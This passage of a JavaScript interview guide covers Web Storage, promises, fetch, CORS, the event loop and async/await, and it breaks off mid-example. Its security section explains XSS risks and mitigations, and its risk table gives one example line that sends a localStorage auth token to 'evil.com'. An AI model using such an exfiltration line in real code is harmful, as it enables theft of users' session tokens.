| Lifetime | Persists until explicitly cleared (survives tab close, browser restart) | Cleared when the **browsing context** (tab/window) is closed |
| Scope | Shared across all tabs/windows with the same origin | Isolated to the **specific tab** that created it — not shared with other tabs, even at the same origin |
| Capacity | ~5–10 MB per origin (browser-dependent) | ~5 MB per origin per tab |
| Accessible from | All tabs / workers at same origin | Only the originating tab |
| Survives refresh | ✅ | ✅ |
| Survives tab close | ✅ | ❌ |
| Server access | ❌ (never sent in HTTP requests) | ❌ |
| Available in workers | ❌ (not in Service/Web Workers) | ❌ |

Both storages are **origin-scoped** (`protocol + hostname + port`) — a page on `https://app.example.com` cannot access storage set by `https://api.example.com`.

```js
// ── localStorage ─────────────────────────────────────────────────────────────
localStorage.setItem('theme', 'dark');
const theme = localStorage.getItem('theme');  // 'dark'
localStorage.removeItem('theme');
localStorage.clear();                          // removes all items for this origin

// ── sessionStorage ────────────────────────────────────────────────────────────
sessionStorage.setItem('draft', JSON.stringify({ title: 'Untitled' }));
const draft = JSON.parse(sessionStorage.getItem('draft'));
sessionStorage.removeItem('draft');

// ── Iterating all entries ─────────────────────────────────────────────────────
for (let i = 0; i < localStorage.length; i++) {
  const key   = localStorage.key(i);
  const value = localStorage.getItem(key);
  console.log(key, value);
}
```

**Real-World Use Case:**

E-commerce platforms use `localStorage` to persist the shopping cart so items survive browser restarts. Multi-step checkout wizards use `sessionStorage` for in-progress form data — it is automatically discarded when the user closes the tab, preventing stale checkout state from appearing in future sessions. This distinction eliminates the need for complex server-side session cleanup logic.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Why does Web Storage only support strings, and how do you safely store and retrieve complex data?

The Web Storage API stores all values as **plain strings**. Passing a non-string value calls `.toString()` on it implicitly — which for objects produces `"[object Object]"` and for arrays produces a comma-joined string — silently corrupting the data. The correct solution is to **serialise with `JSON.stringify`** before writing and **deserialise with `JSON.parse`** after reading.

`JSON.stringify` has limitations: it drops `undefined` values, converts `Date` objects to ISO strings (losing the `Date` type), cannot serialise functions, and throws on circular references. A robust storage utility must handle these edge cases.

```js
// ❌ Naive — data corruption
localStorage.setItem('user', { name: 'Alice' });
console.log(localStorage.getItem('user')); // '[object Object]' — NOT what you want

// ✅ Correct — JSON serialisation
const user = { name: 'Alice', prefs: { theme: 'dark' }, createdAt: new Date() };
localStorage.setItem('user', JSON.stringify(user));
const stored = JSON.parse(localStorage.getItem('user'));
console.log(stored.createdAt); // string — Date is NOT preserved as a Date object

// ── Safe storage utility with error handling ──────────────────────────────────

const storage = {
  set(key, value) {
    try {
      localStorage.setItem(key, JSON.stringify(value));
    } catch (err) {
      if (err instanceof DOMException && err.name === 'QuotaExceededError') {
        console.warn('localStorage quota exceeded. Evicting stale entries.');
        localStorage.clear(); // or implement LRU eviction
        localStorage.setItem(key, JSON.stringify(value));
      } else {
        throw err;
      }
    }
  },

  get(key, fallback = null) {
    try {
      const raw = localStorage.getItem(key);
      return raw === null ? fallback : JSON.parse(raw);
    } catch {
      return fallback; // JSON.parse failed — return safe fallback
    }
  },

  remove(key) {
    localStorage.removeItem(key);
  },
};

storage.set('config', { lang: 'en', debug: true });
const config = storage.get('config', { lang: 'en', debug: false });
console.log(config); // { lang: 'en', debug: true }

storage.get('missing', 42); // 42 — fallback returned
```

**Real-World Use Case:**

Redux Persist (the standard library for persisting Redux state) uses `JSON.stringify`/`JSON.parse` under the hood with configurable **transforms** to handle non-serialisable types. It also wraps every `localStorage` call in try/catch to gracefully degrade in private browsing modes (Safari throws `QuotaExceededError` immediately with a quota of 0 in private mode) and in environments where storage is disabled by browser policy — preventing a storage error from crashing the entire React application.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the `storage` event and how can you use Web Storage for cross-tab communication?

The browser fires a **`storage` event** on the `window` object of **all other tabs/windows** at the same origin whenever `localStorage` is modified. The tab that made the change does **not** receive the event itself. This makes `localStorage` a lightweight broadcast channel for cross-tab state synchronisation without a server.

The `StorageEvent` object provides:
- `key` — the changed key (`null` on `clear()`)
- `oldValue` — previous value (or `null`)
- `newValue` — new value (or `null` on `removeItem`)
- `url` — the origin URL that triggered the change
- `storageArea` — reference to the affected storage object

```js
// ── Tab A: writer ─────────────────────────────────────────────────────────────
function broadcastAuthState(isLoggedIn) {
  localStorage.setItem(
    'auth:update',
    JSON.stringify({ isLoggedIn, ts: Date.now() })
  );
  // Remove immediately to allow the same event to fire again next time
  localStorage.removeItem('auth:update');
}

broadcastAuthState(false); // triggers logout across all other open tabs

// ── Tab B (and C, D…): listener ───────────────────────────────────────────────
window.addEventListener('storage', (event) => {
  if (event.key !== 'auth:update' || event.newValue === null) return;

  const { isLoggedIn } = JSON.parse(event.newValue);

  if (!isLoggedIn) {
    // Redirect all other tabs to login page on logout
    window.location.replace('/login?reason=session_expired');
  }
});

// ── React hook: sync theme across tabs ───────────────────────────────────────
function usePersistedTheme() {
  const [theme, setTheme] = React.useState(
    () => localStorage.getItem('theme') ?? 'light'
  );

  React.useEffect(() => {
    const onStorage = (e) => {
      if (e.key === 'theme' && e.newValue) setTheme(e.newValue);
    };
    window.addEventListener('storage', onStorage);
    return () => window.removeEventListener('storage', onStorage);
  }, []);

  const updateTheme = (newTheme) => {
    setTheme(newTheme);
    localStorage.setItem('theme', newTheme); // broadcasts to other tabs
  };

  return [theme, updateTheme];
}
```

**Real-World Use Case:**

Banking and enterprise SaaS applications implement **global logout** using the `storage` event: when a user logs out in one tab, a flag is written to `localStorage`, all other open tabs detect the `storage` event and immediately redirect to the login page. This prevents the security risk of stale authenticated sessions remaining active in background tabs. The same pattern is used by Google\'s suite — logging out of Gmail in one tab logs you out of Google Docs in another.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the security risks of Web Storage, and how do you mitigate them?

Web Storage\'s biggest security limitation is that it is **fully accessible to any JavaScript running on the same origin** — including injected scripts from **Cross-Site Scripting (XSS)** attacks. Unlike `HttpOnly` cookies (which the browser never exposes to JavaScript), a single XSS vulnerability gives an attacker complete read/write access to everything in `localStorage`.

**Key risks:**

| Risk | Description |
|---|---|
| XSS exfiltration | `fetch('https://evil.com/?d=' + localStorage.getItem('token'))` — attacker steals auth tokens |
| Token storage anti-pattern | Storing JWTs in `localStorage` is widely considered insecure for high-value tokens |
| Storage poisoning | Attacker writes malicious values that your app later reads and executes |
| No CSRF protection | Unlike cookies, storage is not sent automatically — but stolen values can be injected manually |

**Mitigations:**

```js
// ❌ NEVER store sensitive auth tokens in localStorage
localStorage.setItem('authToken', jwtToken); // compromised by any XSS

// ✅ Prefer HttpOnly cookies for auth tokens (set by server, never readable by JS)
// Set-Cookie: token=<jwt>; HttpOnly; Secure; SameSite=Strict

// ✅ If you MUST use storage (e.g., SPAs without cookie-based auth):
// 1. Store only short-lived access tokens (refresh via HttpOnly cookie)
// 2. Implement strict Content Security Policy to minimise XSS surface
// 3. Validate and sanitise ALL values read from storage before use

function safeReadConfig(key) {
  const raw = localStorage.getItem(key);
  if (!raw) return null;

  let parsed;
  try {
    parsed = JSON.parse(raw);
  } catch {
    localStorage.removeItem(key); // corrupt data — remove it
    return null;
  }

  // Validate shape — never trust storage blindly
  if (typeof parsed !== 'object' || parsed === null || typeof parsed.theme !== 'string') {
    localStorage.removeItem(key);
    return null;
  }

  return parsed;
}

// ✅ Content Security Policy header (set server-side, limits XSS attack surface)
// Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'
```

**What is safe to store in `localStorage`:**
- Non-sensitive UI preferences (theme, language, layout)
- Non-sensitive feature flags
- Anonymous analytics identifiers
- Draft content (non-confidential)

**What should never go in `localStorage`:**
- Authentication tokens (JWTs, session tokens, OAuth tokens)
- Passwords or PINs
- PII (personally identifiable information)
- Encryption keys

**Real-World Use Case:**

The OWASP Web Security Testing Guide explicitly recommends against storing JWTs in `localStorage` and instead advocates the **"silent refresh"** pattern: a short-lived access token is kept in memory (JavaScript variable), and a long-lived refresh token is stored in an `HttpOnly` `Secure` cookie. When the access token expires, the app makes a background request using the cookie to get a new one. Auth0, Okta, and AWS Cognito all offer this pattern in their SDKs — storing nothing sensitive in `localStorage` while still supporting SPA-style authentication.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How does `localStorage` perform under load, and what are the architectural alternatives for large-scale client-side storage?

`localStorage` is **synchronous** — every `getItem`, `setItem`, and `removeItem` call **blocks the main thread**. In V8, these are cross-process IPC calls to the browser\'s storage process, and while they are typically fast (sub-millisecond for small payloads), they become a measurable bottleneck when:
- Storing large JSON blobs (>100 KB per entry)
- Iterating all keys to find entries
- Calling storage APIs inside animation loops or scroll handlers
- Operating on low-end Android devices where I/O is slower

**Comparison of client-side storage options:**

| Storage | Async? | Capacity | Queryable? | Worker Access | Best For |
|---|---|---|---|---|---|
| `localStorage` | ❌ Sync | ~5–10 MB | ❌ | ❌ | Small preferences, flags |
| `sessionStorage` | ❌ Sync | ~5 MB | ❌ | ❌ | Tab-scoped transient state |
| **IndexedDB** | ✅ Async | 50%+ of disk | ✅ (indexed) | ✅ Service Workers | Large structured data, offline apps |
| **Cache API** | ✅ Async | Large | ❌ (by URL) | ✅ Service Workers | Network response caching (PWAs) |
| **Cookies** | ❌ Sync | ~4 KB | ❌ | ❌ | Auth (HttpOnly), server-shared state |
| Memory (variable) | N/A | RAM limit | N/A | Per-context | Ephemeral in-session state |

```js
// ── localStorage: fine for small data ────────────────────────────────────────
localStorage.setItem('lang', 'en'); // ✅ sub-millisecond, tiny payload

// ── IndexedDB via idb library (async, large data) ─────────────────────────────
import { openDB } from 'idb'; // lightweight IDB wrapper

const db = await openDB('app-db', 1, {
  upgrade(db) {
    const store = db.createObjectStore('articles', { keyPath: 'id' });
    store.createIndex('by-author', 'authorId');
  },
});

// Write
await db.put('articles', { id: 1, title: 'Hello IDB', authorId: 42, body: '...' });

// Query by index — impossible with localStorage
const byAuthor = await db.getAllFromIndex('articles', 'by-author', 42);
console.log(byAuthor); // all articles by author 42

// ── Avoid localStorage in hot paths ───────────────────────────────────────────
// ❌ Do not call localStorage inside a resize/scroll handler
window.addEventListener('scroll', () => {
  localStorage.setItem('scrollPos', window.scrollY); // blocks main thread every scroll event
});

// ✅ Debounce or use in-memory state + persist on pause
let scrollPos = 0;
const saveScroll = debounce(() => localStorage.setItem('scrollPos', scrollPos), 300);
window.addEventListener('scroll', () => { scrollPos = window.scrollY; saveScroll(); });

function debounce(fn, ms) {
  let timer;
  return (...args) => { clearTimeout(timer); timer = setTimeout(() => fn(...args), ms); };
}
```

**Real-World Use Case:**

Progressive Web Apps (PWAs) like Starbucks' ordering PWA and Twitter Lite use **IndexedDB** (via the `idb` library or Workbox) to store thousands of cached API responses, product catalogues, and offline-readable article bodies — data far exceeding `localStorage`\'s capacity. The **Cache API** handles network response caching in Service Workers. `localStorage` is reserved only for lightweight user preferences (theme, language). This tiered storage architecture is why Twitter Lite loads in under 5 seconds on 2G networks — IndexedDB serves stale-while-revalidate content instantly while the network catches up.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>


## L3: Advanced (Mid-Senior / Lead)

<br>

## # 17. PROMISES

<br>

## Q. What is a promise?

A promise is an object that may produce a single value some time in the future with either a resolved value or a reason that it\'s not resolved (for example, network error). It will be in one of the 3 possible states: **fulfilled**, **rejected**, or **pending**.

**Syntax:**

```js
const promise = new Promise(function (resolve, reject) {
  // promise description
})
```

**Example:**

```js
let promise = new Promise(function(resolve, reject) {
  // the function is executed automatically when the promise is constructed

  // after 1 second signal that the job is done with the result "done"
  setTimeout(() => resolve("done"), 1000);
});
```

Promises are used to handle asynchronous operations. They provide an alternative approach for callbacks by reducing the callback hell and writing the cleaner code.

Promises have three states:

1. **pending:** initial state, neither fulfilled nor rejected.
2. **fulfilled:** meaning that the operation was completed successfully.
3. **rejected:** meaning that the operation failed.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is promise chaining?

The process of executing a sequence of asynchronous tasks one after another using promises is known as Promise chaining. It allows you to chain on another then call which will run when the second promise is fulfilled. The `.catch()` can still be called to handle any errors that might occur along the way.

**Example:**

```js
// Promise Chain
new Promise(function (resolve, reject) {
  setTimeout(() => resolve(10), 1000);
})
  .then(function (result) {
    console.log(result); // 10
    return result + 20;
  })
  .then(function (result) {
    console.log(result); // 30
    return result + 30;
  });
```

In the above handlers, the result is passed to the chain of .then() handlers with the below work flow,
* The initial promise resolves in one second,
* After that `.then()` handler is called by logging the result(10) and then return a promise with the value of `result + 20`.
* After that the value passed to the next `.then()` handler by logging the result(20) and return a promise with `result + 30`.

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-promise-chain-qjg2u3?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is promise.all()?

`Promise.all` is a promise that takes an array of promises as an input (an iterable), and it gets resolved when all the promises get resolved or any one of them gets rejected.

**Example:**

```js
// promise.all()
const promise1 = new Promise((resolve, reject) => {
  setTimeout(resolve, 10, "First");
});

const promise2 = new Promise((resolve, reject) => {
  setTimeout(resolve, 20, "Second");
});

Promise.all([promise1, promise2])
  .then((values) => {
    console.log(values);
  })
  .catch((error) => console.log(`Error in promises ${error}`));
// expected output: Array ["First", "Second"]
```

*Note: Remember that the order of the promises (output the result) is maintained as per input order*.

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-promise-all-5ieqjp?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the purpose of race method in promise?

`Promise.race()` method will return the promise instance which is firstly resolved or rejected. 

**Example:** Let us take an example of `race()` method where promise2 is resolved first

```js
const promise1 = new Promise(function (resolve, reject) {
  setTimeout(resolve, 500, "First");
});

const promise2 = new Promise(function (resolve, reject) {
  setTimeout(resolve, 100, "Second");
});

Promise.race([promise1, promise2]).then(function (value) {
  console.log(value); // "Second" // Both promises will resolve, but promise2 is faster
});
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-promise-race-7k6zh0?file=/src/index.js)**

**Practical use — implementing a request timeout:**

A common interview pattern (asked at Amazon/Google) is to add a timeout to any async operation using `Promise.race()`:

```js
function withTimeout(promise, ms) {
  const timeout = new Promise((_, reject) =>
    setTimeout(() => reject(new Error(`Timed out after ${ms}ms`)), ms)
  );
  return Promise.race([promise, timeout]);
}

// Usage
withTimeout(fetch('/api/data'), 5000)
  .then(res => res.json())
  .then(data => console.log(data))
  .catch(err => console.error(err.message)); // "Timed out after 5000ms" if slow
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the pros and cons of promises over callbacks?

Below are the list of pros and cons of promises over callbacks,  

**Pros:**

* It avoids callback hell which is unreadable
* Easy to write sequential asynchronous code with `.then()`
* Easy to write parallel asynchronous code with `Promise.all()`
* Solves some of the common problems of callbacks(call the callback too late, too early, many times and swallow errors/exceptions)
* Integrated error handling.
* Additional static methods: `Promise.allSettled()`, `Promise.any()`, `Promise.race()`

**Cons:**

* It makes little complex code
* It cannot return multiple arguments.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How does await and async works in es6?

The **async** and **await** keywords enable asynchronous, promise-based behavior to be written in a cleaner style, avoiding the need to explicitly configure promise chains.

**Async** keyword is used along with the function declaration which specifies that this function is now able to accept all types of asynchronous events on itself. **Await** basically waits for the results which are particularly to be fetched from the source from which that async function is about to fetch the data.

**Example:**

```js
// async() and await()
async function fetchMethod() {
  try {
    let response = await fetch("https://api.github.com/users/1");
    let data = await response.json();
    console.log(data);
  } catch (error) {
    console.error(error);
  }
}

fetchMethod();
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-async-await-4jj835?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is difference between fetch() and XMLHttpRequest() in JavaScript?

**1. XMLHttpRequest:**  

`XMLHttpRequest()` is a built-in browser object that allows to make HTTP requests in JavaScript. XMLHttpRequest has two modes of operation: **synchronous** and **asynchronous**.

**Example:**

```js
const xhr = new XMLHttpRequest();

xhr.onreadystatechange = function () {
  if (this.readyState === 4 && this.status === 200) {
    console.log(this.responseText);
  }
};

xhr.open("GET", "https://jsonplaceholder.typicode.com/todos/1", true); // this makes asynchronous true or false
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send();
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-xmlhttprequest-ped1vv?file=/src/index.js)**

**2. Fetch():**  

Fetch allows to make network requests similar to `XMLHttpRequest`. Fetch makes it easier to make asynchronous requests and handle responses better than with the older XMLHttpRequest. It is an improvement over the `XMLHttpRequest` API. The main difference between `Fetch()` and `XMLHttpRequest()` is that the Fetch API uses Promises, hence avoiding **callback hell**.

**Example:**

```js
fetch("https://jsonplaceholder.typicode.com/todos/1")
  .then(function (response) {
    return response.json();
  })
  .then(function (data) {
    console.log(data);
  })
  .catch(function (err) {
    console.log("Something went wrong!", err);
  });
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-fetch-8xb8e9?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain fetch() properties in JavaScript?

A `fetch()` function is available in the global window object. The fetch() function takes one mandatory argument, the path to the resource you want to fetch. It returns a Promise, whether it is successful or not. If request is successful `.then()` function will receive Response object, if request fails then `.catch()` function will receive an error object

**Example:**

```js
fetch("https://api.github.com/users/learning-zone")
  .then(function (response) {
    return response.json();
  })
  .then(function (data) {
    console.log(data);
  })
  .catch(function (err) {
    console.log("Something went wrong!", err);
  });
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-fetch-v6gpnk?file=/src/index.js)**

**Headers Object**  

The Headers interface allows to create own headers object via the `Headers()` constructor. A headers object is a collection of name-value pairs.

**Example:**

```js
let reqHeader = new Headers();
reqHeader.append("Content-Type", "text/json");
let initObject = {
  method: "GET",
  headers: reqHeader
};

fetch("https://api.github.com/users/learning-zone", initObject)
  .then(function (response) {
    return response.json();
  })
  .then(function (data) {
    console.log(data);
  })
  .catch(function (err) {
    console.log("Something went wrong!", err);
  });
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-headers-object-6xe335?file=/src/index.js)**

**Request Object**  

The Request Object represents a resource request. Instead of passing an URL of the resource into the `fetch()` call, you can create a request object using the `Request()` constructor, and pass that as an argument to `fetch()`. By passing Request object to the `fetch()`, you can make customised requests.

**Example:**

```js
let reqHeader = new Headers();
reqHeader.append("Content-Type", "text/json");

let initObject = {
  method: "GET",
  headers: reqHeader
};

const userRequest = new Request(
  "https://api.github.com/users/learning-zone",
  initObject
);

fetch(userRequest)
  .then(function (response) {
    return response.json();
  })
  .then(function (data) {
    console.log(data);
  })
  .catch(function (err) {
    console.log("Something went wrong!", err);
  });
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-request-object-ro4xt9?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between Promise and AJAX?

A Promise is **an interface** for asynchronous operations. They keep track of when asynchronous operations complete and what their results are and let you coordinate that completion and those results (including error conditions) with other code or other asynchronous operations. They aren\'t actually asynchronous operations in themselves. 

An Ajax call is a specific asynchronous operation that can be used with with a traditional callback interface or wrapped in a promise interface. We can make an Ajax call either with a traditional callback using the `XMLHttpRequest()` interface or we can make an Ajax call (in modern browsers), using a promise with the `fetch()` interface.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is `AbortController` and how do you cancel a fetch request?

`AbortController` is a browser API that allows you to cancel one or more `fetch` requests (or any operation that accepts a signal).

**Basic usage:**

```js
const controller = new AbortController();
const signal = controller.signal;

// Start the request, pass the signal
fetch('/api/data', { signal })
  .then(res => res.json())
  .then(data => console.log(data))
  .catch(err => {
    if (err.name === 'AbortError') {
      console.log('Fetch was cancelled');
    } else {
      throw err;
    }
  });

// Cancel the request after 3 seconds
setTimeout(() => controller.abort(), 3000);
```

**Cancel on component unmount (React pattern):**

```js
useEffect(() => {
  const controller = new AbortController();

  fetch('/api/user', { signal: controller.signal })
    .then(res => res.json())
    .then(setUser)
    .catch(err => {
      if (err.name !== 'AbortError') console.error(err);
    });

  return () => controller.abort(); // cleanup on unmount
}, []);
```

**Using `signal.aborted` and `signal.reason` (modern API):**

```js
const controller = new AbortController();

controller.abort('User navigated away'); // pass a reason

console.log(controller.signal.aborted); // true
console.log(controller.signal.reason);  // 'User navigated away'
```

*Note: `AbortController` also works with `addEventListener`, streams, and any custom async operation that accepts `AbortSignal`.*

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is difference between async or defer keyword in JavaScript?

**1. async Attribute**  

The async attribute is used to indicate to the browser that the script file can be executed asynchronously. The HTML parser does not need to pause at the point it reaches the script tag to fetch and execute, the execution can happen whenever the script becomes ready after being fetched in parallel with the document parsing.

```html
<script src="script.js" async></script>
```

This attribute is only available for externally located script files. When an external script has this attribute, the file can be downloaded while the HTML document is still parsing. Once it has been downloaded, the parsing is paused for the script to be executed.

**2. defer Attribute**  

The defer attribute tells the browser not to wait for the script. Instead, the browser will continue to process the HTML, build DOM. The script loads "in the background", and then runs when the DOM is fully built.

```html
<script src="script.js" defer></script>
```

Like an asynchronously loaded script, the file can be downloaded while the HTML document is still parsing. However, even if the file is fully downloaded long before the document is finished parsing, the script is not executed until the parsing is complete.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is CORS (Cross-Origin Resource Sharing) in JavaScript?

**CORS** is a browser security mechanism that controls how web pages can request resources from a different origin (domain, protocol, or port) than the one that served the page. It uses HTTP headers to tell browsers whether a given web page is allowed to access resources from a different origin.

**Why CORS exists:**

The browser enforces the **Same-Origin Policy** by default, which blocks JavaScript from making cross-origin requests. CORS provides a controlled way to relax this restriction.

**How CORS works:**

1. **Simple requests** (GET, POST with plain-text content types) — the browser automatically sends an `Origin` header; the server responds with `Access-Control-Allow-Origin`.
2. **Preflight requests** — for complex methods (PUT, DELETE) or custom headers, the browser first sends an `OPTIONS` request to check permissions.

**Server-side response headers:**

| Header | Purpose |
|--------|---------|
| `Access-Control-Allow-Origin` | Specifies which origins are permitted (`*` or specific origin) |
| `Access-Control-Allow-Methods` | Permitted HTTP methods |
| `Access-Control-Allow-Headers` | Permitted request headers |
| `Access-Control-Allow-Credentials` | Whether cookies/auth can be included |
| `Access-Control-Max-Age` | How long preflight results can be cached |

**Example — Fetch with CORS:**

```js
// Client-side request to a different origin
fetch('https://api.example.com/data', {
  method: 'GET',
  headers: {
    'Content-Type': 'application/json',
  },
  credentials: 'include', // send cookies cross-origin (requires server to set Allow-Credentials: true)
})
  .then(res => res.json())
  .then(data => console.log(data))
  .catch(err => console.error('CORS error:', err));
```

**Example — Preflight request flow:**

```
// Browser sends preflight:
OPTIONS /api/data HTTP/1.1
Origin: https://myapp.com
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: Authorization

// Server responds:
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: https://myapp.com
Access-Control-Allow-Methods: GET, POST, DELETE
Access-Control-Allow-Headers: Authorization
Access-Control-Max-Age: 86400
```

**Common CORS errors:**

* `No 'Access-Control-Allow-Origin' header is present` — server does not permit the request origin.
* `CORS policy: credential flag is 'true' but the 'Access-Control-Allow-Origin' is '*'` — wildcard origin cannot be used with `credentials: 'include'`.

*Note: CORS is enforced by the browser. Server-to-server calls (Node.js, curl) are not subject to CORS.*

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is request header in javascript?

The `headers` read-only property of the `Request` interface contains the `Headers` object associated with the request.  
Syntax

```js
const myHeaders = request.headers;
```

**Example:**

```js
const myHeaders = new Headers();
myHeaders.append('Content-Type', 'image/jpeg');

var myInit = { 
  method: 'GET',
  headers: myHeaders,
  mode: 'cors',
  cache: 'default' 
};

const myRequest = new Request('flowers.jpg', myInit);
myContentType = myRequest.headers.get('Content-Type'); // returns 'image/jpeg'
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the event loop in JavaScript?

JavaScript is **single-threaded** — it can execute only one task at a time. The **event loop** is the mechanism that allows JavaScript to perform non-blocking I/O operations (like network requests and timers) despite this single-thread constraint.

**How it works:**

```
Call Stack       Web APIs / Node APIs       Callback Queue / Microtask Queue
   │                      │                           │
   ▼                      ▼                           ▼
Executes sync     setTimeout, fetch,         Queued callbacks waiting
code (LIFO)       DOM events, etc.           to enter the call stack
```

1. Synchronous code runs on the **call stack** first.
2. Async operations (e.g. `setTimeout`, `fetch`) are handed off to Web APIs.
3. When complete, their callbacks are pushed to a **queue**.
4. The event loop continuously checks: *"Is the call stack empty?"* — if yes, it dequeues the next callback and pushes it onto the stack.

**Microtask queue vs. macro-task queue:**

* **Microtasks** (Promises `.then`/`.catch`, `queueMicrotask`, `MutationObserver`) are processed **before** the next macro-task.
* **Macro-tasks** (setTimeout, setInterval, I/O) are processed one per event-loop tick.

**Example:**

```js
console.log('1');

setTimeout(() => console.log('2'), 0); // macro-task

Promise.resolve().then(() => console.log('3')); // microtask

console.log('4');

// Output order: 1, 4, 3, 2
```

*Explanation:* `1` and `4` run synchronously. Then the microtask queue drains (`3`). Then the macro-task fires (`2`).

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is garbage collection in JavaScript?

**Garbage collection (GC)** is the automatic process by which JavaScript frees up memory occupied by objects that are no longer reachable (i.e., no references point to them).

**1. Reference Counting algorithm (legacy)**

Tracks how many references point to an object. When the count drops to zero, the memory is freed.

```js
let a = { name: 'Alice' }; // ref count: 1
let b = a;                  // ref count: 2
a = null;                   // ref count: 1
b = null;                   // ref count: 0 → eligible for GC
```

**Problem — circular references:**

```js
function createCycle() {
  let obj1 = {};
  let obj2 = {};
  obj1.ref = obj2; // obj1 → obj2
  obj2.ref = obj1; // obj2 → obj1 (cycle)
  // ref count never reaches 0 — memory leak with pure reference counting
}
```

**2. Mark-and-Sweep algorithm (modern)**

The modern approach used by all major engines (V8, SpiderMonkey):

1. **Mark phase** — starting from GC roots (`window`, global scope, call-stack variables), traverse all reachable objects and mark them.
2. **Sweep phase** — free all unmarked (unreachable) objects.

Circular references are handled correctly because the cycle is unreachable from the root after both `obj1` and `obj2` go out of scope.

**Common causes of memory leaks in JavaScript:**

| Cause | Example |
|-------|---------|
| Global variables | Accidentally using `x = 1` without `let/const/var` |
| Forgotten timers | `setInterval` never cleared |
| Detached DOM nodes | DOM element removed but reference kept in a closure |
| Closures retaining large objects | A closure captures a large array it no longer needs |
| Unreleased event listeners | `addEventListener` without a matching `removeEventListener` |

```js
// Memory leak — timer retains reference to element
const btn = document.getElementById('myBtn');
const timer = setInterval(() => {
  btn.textContent = new Date().toLocaleTimeString();
}, 1000);

// Fix — clear the timer when done
clearInterval(timer);
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to get responses of multiple api calls, when some API fails?

**Promise.allSettled():**

To handle failures in multiple API calls, `Promise.allSettled()` method can be used. The method returns a Promise that resolves after all of the given promises have either resolved or rejected. It returns an array of objects with two properties: status and value.

The status property is either "fulfilled" or "rejected", depending on whether the promise was resolved or rejected. The value property is the value of the promise if it was resolved or the reason for rejection if it was rejected.

**Example:**

```js
const promises = [fetch('api1'), fetch('api2'), fetch('api3')];

Promise.allSettled(promises)
  .then(results => {
    const successfulResults = [];
    const failedResults = [];

    results.forEach(result => {
      if (result.status === 'fulfilled') {
        successfulResults.push(result.value);
      } else {
        failedResults.push(result.reason);
      }
    });
    
    console.log('Successful API calls:', successfulResults);
    console.log('Failed API calls:', failedResults);
  })
  .catch(error => console.log('Error:', error));
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Explain the use of Promise.any()?

The `Promise.any()` method is used to handle multiple promises simultaneously, and it resolves with the value of the first fulfilled promise.regardless of whether any of the other promises reject. If all of the promises reject, then `Promise.any()` rejects with an `AggregateError` object that contains an array of rejection reasons.

The `Promise.any()` method takes an iterable of Promises as an input, and returns a new Promise. Here\'s an example:

```javascript
const promise1 = new Promise((resolve, reject) => setTimeout(reject, 1000, 'Promise 1 rejected'));
const promise2 = new Promise((resolve, reject) => setTimeout(resolve, 500, 'Promise 2 resolved'));
const promise3 = new Promise((resolve, reject) => setTimeout(resolve, 1500, 'Promise 3 resolved'));

Promise.any([promise1, promise2, promise3])
  .then((value) => console.log(value)) // 'Promise 2 resolved'
  .catch((error) => console.error(error)); // AggregateError: All promises were rejected
```
*Note: `Promise.any()` is supported in all modern browsers since 2021.*

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 18. Async & Await

<br>

## Q. What is `async`/`await` and how does it relate to Promises under the hood?

`async`/`await` is syntactic sugar over the Promise API introduced in ES2017 (ES8). An `async` function always returns a Promise — if you return a plain value, the runtime wraps it in `Promise.resolve(value)`; if you throw, it wraps the error in `Promise.reject(error)`. The `await` keyword can only be used inside an `async` function (or at the top level of an ES module). When the engine encounters `await expr`, it:

1. Evaluates `expr` — converting it to a Promise if it isn\'t one already.
2. **Suspends** the current `async` function, saving its execution context (local variables, instruction pointer) to the heap as a microtask continuation.
3. Returns control to the caller immediately (non-blocking).
4. When the awaited Promise settles, the microtask queue schedules resumption of the suspended function.

This means `async`/`await` does **not** block the JavaScript thread — it is purely a more readable way to write `.then()` chains, implemented via generator-like coroutines by V8\'s Ignition interpreter.

```js
// ── Promise chain vs async/await — equivalent behaviour ──────────────────────

